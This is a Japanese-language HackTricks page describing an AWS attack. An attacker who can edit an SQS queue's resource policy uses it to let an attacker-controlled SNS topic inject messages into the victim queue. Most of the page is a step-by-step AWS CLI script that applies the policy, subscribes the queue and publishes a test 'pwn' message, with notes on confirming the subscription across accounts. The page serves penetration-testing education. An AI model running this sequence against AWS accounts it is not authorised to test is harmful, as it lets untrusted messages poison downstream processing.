 # AWS – SQS Cross-/Same-Account Injection via SNS Subscription + Queue Policy

{{#include ../../../../banners/hacktricks-training.md}}

## 説明

SQSキューのリソースポリシーを悪用して、攻撃者が制御するSNSトピックが被害者のSQSキューにメッセージを送信できるようにします。同一アカウント内では、SNSトピックへのSQSサブスクリプションは自動的に確認されます；クロスアカウントの場合は、キューからSubscriptionConfirmation tokenを読み取り、ConfirmSubscriptionを呼び出す必要があります。これにより、下流のコンシューマが暗黙に信頼してしまう可能性のある、信頼できないメッセージの注入が可能になります。

### 要件
- 対象のSQSキューのリソースポリシーを変更する権限: `sqs:SetQueueAttributes` on the victim queue.
- 攻撃者が制御するSNSトピックを作成/メッセージ公開できる権限: `sns:CreateTopic`, `sns:Publish`, and `sns:Subscribe` on the attacker account/topic.
- Cross-account only: 被害者キュー上で確認トークンを読み取り、`sns:ConfirmSubscription` を呼び出すための一時的な `sqs:ReceiveMessage` 。

### Same-account exploitation
```bash
REGION=us-east-1
# 1) Create victim queue and capture URL/ARN
Q_URL=$(aws sqs create-queue --queue-name ht-victim-q --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Create attacker SNS topic
TOPIC_ARN=$(aws sns create-topic --name ht-attacker-topic --region $REGION --query TopicArn --output text)

# 3) Allow that SNS topic to publish to the queue (queue resource policy)
cat > /tmp/ht-sqs-sns-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSTopicPublish","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"SQS:SendMessage","Resource":"REPLACE_QUEUE_ARN","Condition":{"StringEquals":{"aws:SourceArn":"REPLACE_TOPIC_ARN"}}}]}
JSON
sed -i.bak "s#REPLACE_QUEUE_ARN#$Q_ARN#g; s#REPLACE_TOPIC_ARN#$TOPIC_ARN#g" /tmp/ht-sqs-sns-policy.json
# Provide the attribute as a JSON map so quoting works reliably
cat > /tmp/ht-attrs.json <<JSON
{
"Policy": "REPLACE_POLICY_JSON"
}
JSON
# Embed the policy file contents as a JSON string
POL_ESC=$(jq -Rs . /tmp/ht-sqs-sns-policy.json)
sed -i.bak "s#\"REPLACE_POLICY_JSON\"#$POL_ESC#g" /tmp/ht-attrs.json
aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes file:///tmp/ht-attrs.json

# 4) Subscribe the queue to the topic (auto-confirms same-account)
aws sns subscribe --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --region $REGION

# 5) Publish and verify injection
aws sns publish --topic-arn "$TOPIC_ARN" --message {pwn:sns->sqs} --region $REGION
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --attribute-names All --message-attribute-names All
```
### アカウント間の注意事項
- 上のキューのポリシーは外部の `TOPIC_ARN`（攻撃者アカウント）を許可している必要があります。
- サブスクリプションは自動確認されません。被害者キューに対して一時的に `sqs:ReceiveMessage` を付与し、`SubscriptionConfirmation` メッセージを読み、その `Token` を使って `sns confirm-subscription` を呼び出してください。

### 影響
**潜在的な影響**: SNS を介して信頼された SQS キューに継続的に望まれないメッセージを注入し、意図しない処理、データ汚染、またはワークフローの悪用を引き起こす可能性があります。

{{#include ../../../../banners/hacktricks-training.md}}
